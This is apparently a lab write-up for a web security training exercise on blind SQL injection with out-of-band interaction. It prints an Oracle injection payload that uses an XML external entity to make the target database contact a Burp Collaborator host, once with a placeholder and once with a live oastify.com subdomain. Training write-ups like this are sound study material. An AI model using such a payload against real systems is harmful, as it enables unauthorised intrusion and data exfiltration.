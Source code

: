 # Blind SQL injection with out-of-band interaction

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/8419e01c-a6dc-4fcf-aca7-7b23bb768220)

## Solution

First we check to see if the website uses in-band or out-band by adding some custom values in tracking query. The result shows that the query is done by out-band.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/0dc1256c-9c34-42b2-8389-433932804413)

We use `Burp Collaborator` for performing the attack. Copy the subdomain by going into `Burp Collaborator` and clicking on `copy to clipboard`.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/c6c64153-a87d-48c4-9b24-da1e87b8d2b9)

We use Burp's SQL Injection cheetsheet to find the payload which is `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--` .

Here we copy and paste the subdomain we recieved from Burp Collaborator in the http part of the payload. `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//4kpj39cvmacndrbk3g0mxbynve15pvdk.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/d8a97a9f-7664-4f42-8aca-a4ef804f7f5b)

If we go to Burp Collaborator agian we can see the result of the DNS lookup we did
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/1c3d8e4c-630a-4b59-ab05-cd58db5bc109)
